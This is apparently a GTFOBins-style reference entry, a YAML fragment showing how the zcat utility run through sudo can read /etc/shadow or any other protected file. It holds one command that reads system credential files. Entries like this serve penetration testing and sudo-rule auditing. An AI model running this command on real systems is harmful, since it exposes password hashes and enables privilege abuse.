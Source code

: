 ```yaml
---
functions:
  sudo:
    - code: |
        LFILE="/etc/shadow" # or any other file
        sudo zcat -f "$LFILE"
---
```

